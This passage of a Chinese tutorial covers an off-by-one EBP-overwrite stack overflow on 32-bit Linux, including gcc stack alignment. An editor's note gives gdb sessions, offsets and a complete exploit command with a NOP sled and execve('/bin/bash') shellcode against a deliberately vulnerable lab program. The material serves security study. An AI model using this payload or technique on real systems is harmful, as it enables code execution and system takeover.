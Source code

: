 情况2: 对齐空间——gcc对齐栈空间边界默认为16字节。即在创建栈空间之前，ESP的最后四个字节就被‘and’指令清零了。具体参见下方函数反汇编代码。  
```
Dump of assembler code for function main:
 0x08048497 <+0>: push %ebp
 0x08048498 <+1>: mov %esp,%ebp
 0x0804849a <+3>: push %edi
 0x0804849b <+4>: and $0xfffffff0,%esp               //Stack space aligned to 16 byte boundary
 0x0804849e <+7>: sub $0x20,%esp                     //create stack space
...
```
因此，在这种情况下，夹在缓冲区‘buf’末端和EBP之间的会是一个（最大为12字节的）对齐空间，这就不允许我们去覆盖EBP的LSB了。  

由于这个原因，我们在编译漏洞利用代码(vuln.c)时添加了gcc参数“-mpreferred-stack-boundary=2”。  

求助：如果在创建栈内容之前ESP边界已经对齐为16字节的话该怎么办？这种情况下，即使程序以gcc默认的16字节栈边界编译，按理来说“EBP覆盖”法也是可以用的。但是我一直都写不出有效代码。在我所有的试运行程序中，创建栈空间之前，ESP边界都没有对齐16字节。但是不管我多么小心地创建栈内容，gcc总是给本地变量添加额外空间，这样ESP边界就不能对齐16字节。如果任何人有有效代码或者知道为什么ESP总是无法对齐，麻烦告诉我！拜托了！  

## 0x05 编者注
按照文章的思路，测试时找到的返回空间地址（0xbffff404）与buf 起始地址（0xbffff3c8）偏移是 60个字节，如下所示，需要覆盖的ebp 是 0xbffff4d4，需要覆盖的返回空间地址是 0xbffff404，poc 设置返回地址是 0xbffff408，即 60 + 返回地址 + 147 nop + 45 shellcode = 256  
```
(gdb) r `python -c 'print "A"*60+"B"*4+"C"*192'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/simba/Documents/LinuxSec/vuln `python -c 'print "A"*60+"B"*4+"C"*192'`

Breakpoint 1, bar (arg=0xbffff6ef 'A' <repeats 60 times>, "BBBB", 'C' <repeats 136 times>...) at stackoffone.c:8
8	void bar(char* arg) {
(gdb) finish
Run till exit from #0  bar (arg=0xbffff6ef 'A' <repeats 60 times>, "BBBB", 'C' <repeats 136 times>...)
    at stackoffone.c:8

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p $eip
$1 = (void (*)()) 0x42424242

(gdb) info reg
eax            0xbffff6ef	-1073744145
ecx            0xfffffefe	-258
edx            0xbffff6ef	-1073744145
ebx            0xb7fc5ff4	-1208197132
esp            0xbffff4cc	0xbffff4cc
ebp            0xbffff4d4	0xbffff4d4
esi            0x0	0
edi            0xbffff7f0	-1073743888
eip            0x8048477	0x8048477 <bar>
eflags         0x282	[ SF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) r `python -c 'print "A"*60+ "\x08\xf4\xff\xbf" +  "\x90" * 147 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x83\xec\x01\xc6\x04\x24\x2f\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

```